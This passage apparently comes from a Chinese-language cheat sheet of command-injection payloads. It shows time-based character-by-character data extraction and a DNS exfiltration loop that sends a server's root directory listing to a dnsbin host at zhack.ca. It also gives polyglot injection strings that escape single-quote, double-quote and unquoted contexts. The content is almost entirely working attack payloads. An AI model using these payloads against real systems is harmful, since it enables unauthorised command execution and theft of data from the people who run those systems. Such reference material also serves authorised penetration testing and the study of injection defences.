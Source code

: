 ### 基于时间的数据泄露

逐个字符提取数据

```powershell
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

### 基于 DNS 的数据泄露

基于来自 `https://github.com/HoLyVieR/dnsbin` 的工具，也托管在 dnsbin.zhack.ca

```powershell
1. 访问 http://dnsbin.zhack.ca/
2. 执行一个简单的 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

检查基于 DNS 的数据泄露的在线工具：

- dnsbin.zhack.ca
- pingb.in

## 多语言命令注入

多语言是指一段代码在多个编程语言或环境中同时有效且可执行。当我们谈论“多语言命令注入”时，我们指的是可以在多个上下文或环境中执行的注入负载。

- 示例 1：

  ```powershell
  负载：1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  
  # 单引号和双引号中的命令上下文：
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```

- 示例 2：

  ```powershell
  负载：/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  
  # 单引号和双引号中的命令上下文：
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```
